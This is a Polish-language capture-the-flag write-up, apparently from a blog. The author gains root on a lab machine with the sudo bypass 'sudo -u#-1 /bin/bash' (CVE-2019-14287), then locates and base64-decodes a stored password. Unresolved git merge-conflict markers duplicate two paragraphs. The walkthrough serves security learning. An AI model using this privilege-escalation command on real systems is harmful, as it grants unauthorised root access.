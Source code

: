 ```bash
ssh test@172.16.1.167 -p 7223
```
## Mamy Shella
Mam taki nawyk, że wchodząc na serwer od razu przeglądam historię. Tym razem to się przydało. Mamy parę ciekawych rzeczy.
{: .text-justify}
```
99  cat pass.txt
100  nano pass.txt
167  sudo -u#-1 /bin/bash
```
Widzimy jakiś plik i komendę z Sudo
{: .text-justify}
```bash
test@ctf:~$ sudo -l
[sudo] password for test:
Matching Defaults entries for test on ctf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User test may run the following commands on ctf:
    (ALL, !root) ALL
test@ctf:~$
```
**(ALL, !root) ALL** - to jest ciekawe.
## Podatność CVE 2019-14287
```bash
sudo -u#-1 /bin/bash
```
<<<<<<< HEAD
Jest root. Poszukałem trochę po necie i się dowiedziałem, że jest to podatność z CVE 2019-14287. Możesz o niej przeczytać [tutaj](https://www.exploit-db.com/exploits/47502). Przeglądając historię jeszcze widzimy plik **pass.txt**. Mając root-a szybko coś znajdziemy.
=======
Jest root. Poszukałem trochę po necie i się dowiedziałem, że jest to podatność z CVE 2019-14287. Możesz o niej przeczytać [tutaj](https://www.exploit-db.com/exploits/47502). Przeglądając historię jeszcze widzimy plik **pass.txt**. Mając root-a szybko coś znajdziemy
>>>>>>> 22aa6df571f3a51b2e5da16a61fbb4e6e8c44934
{: .text-justify}
```bash
root@ctf:~# find / -name pass.txt
/media/floppy0/media/imp/pass.txt
root@ctf:~#
```
Dekodujemy:
```bash
test@ctf:~$ echo Q1RGZGZyR0hZalVzU3NLS0AxMjM0NQo= | base64 -d
CTFdfrGHYjUsSsKK@12345
test@ctf:~$
```
Mamy hasło, ale nie wiadomo do czego. Potem się okazało, że się przydało do pliku /var/zip.rar. W pliku nic nie było.
{: .text-justify}
<<<<<<< HEAD
Podsumowując: Bardzo ciekawy i dosyć łatwy obraz do złamania. W sam raz dla początkujących.
=======
Bardzo ciekawy i dosyć łatwy obraz do złamania. W sam raz dla początkujących.
>>>>>>> 22aa6df571f3a51b2e5da16a61fbb4e6e8c44934
{: .notice--success}